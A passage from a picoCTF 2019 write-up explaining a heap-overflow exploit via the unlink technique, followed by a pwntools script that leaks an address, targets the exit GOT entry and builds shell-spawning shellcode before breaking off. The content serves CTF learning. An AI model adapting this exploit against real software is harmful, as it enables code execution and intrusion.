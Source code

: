 Another challenge that is solved with the unlink method just like [Afterlife](#afterlife) and [Secondlife](#secondlife). The difference is that this time we need a bit more finessing.

To make sure we trigger the unlink mechanics, we need to do two things: 1. change the size of the `lastname` chunk so it would be treated as a smallbin instead of a fastbin 2. fake a freed chunk after `lastname` that would be unlinked when merged with the `lastname` chunk.

The stack layout would look something like this:

- fullname <-- contains our shellcode
- name <-- untouched
- lastname <-- now with a size of 0x100 so it would be treated as a smallbin
- a fake free chunk added that have the `fd_ptr` and `bf_ptr` set

When lastname is freed, it will try to merge with neighboring chunks which would trigger the unlink.

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)

if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/heap-overflow_5_39d709fdc06b81d3c23b73bb9cca6bdb')
  REMOTE = True

print sh.recvline()
leak = int(sh.recvline())

print hex(leak)

exit_got = 0x0804d02c

shellcode = 'a'*8
shellcode += asm('''
  jmp sc
  {}
sc:
  nop
  '''.format('nop\n'*100)+shellcraft.i386.linux.sh())
```